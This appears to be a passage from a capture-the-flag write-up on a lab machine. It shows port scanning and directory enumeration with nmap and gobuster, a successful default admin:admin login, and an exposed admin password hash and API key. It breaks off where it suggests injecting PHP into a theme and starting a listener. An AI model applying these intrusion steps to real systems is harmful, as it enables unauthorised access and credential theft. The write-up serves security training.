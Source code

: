 ## Assesment

Scan all remote host ports :

```
nmap -p- 10.129.228.10

# output
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

Enumerate with gobuster :

```
gobuster dir -u http://10.129.228.10 -w /usr/share/dirb/wordlists/common.txt

# output
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/admin                (Status: 301) [Size: 314] [--> http://10.129.228.10/admin/]
/backups              (Status: 301) [Size: 316] [--> http://10.129.228.10/backups/]
/.htaccess            (Status: 403) [Size: 278]                                    
/data                 (Status: 301) [Size: 313] [--> http://10.129.228.10/data/]   
/index.php            (Status: 200) [Size: 5485]                                   
/plugins              (Status: 301) [Size: 316] [--> http://10.129.228.10/plugins/]
/robots.txt           (Status: 200) [Size: 32]                                     
/server-status        (Status: 403) [Size: 278]                                    
/sitemap.xml          (Status: 200) [Size: 431]                                    
/theme                (Status: 301) [Size: 314] [--> http://10.129.228.10/theme/] 
```

Go to the Files Go to the Theme, you see there is an url thus add DNS to `/etc/hosts` :

* `/robots.txt` : reveals the admin subdirectory.
* `/admin` : try some credentials like `admin:admin`, it works !
* `/backups` : only two files in `other` folder
* `/index.php`
* `/data` : there is more information
* `/sitemap.xml`

In [http://10.129.228.10/data/users/admin.xml](http://10.129.228.10/data/users/admin.xml), there are some credentials :

* user : admin
* pwd : d033e22ae348aeb5660fc2140aec35850c4da997
* email : [admin@gettingstarted.com](mailto:admin@gettingstarted.com)

In [http://10.129.228.10/data/other/authorization.xml](http://10.129.228.10/data/other/authorization.xml), there is an API key :

* key : `4f399dc72ff8e619e327800f851e9986`

You can edit Components in Theme tab and you can add some php code in there. Create a listener on you attack machine :
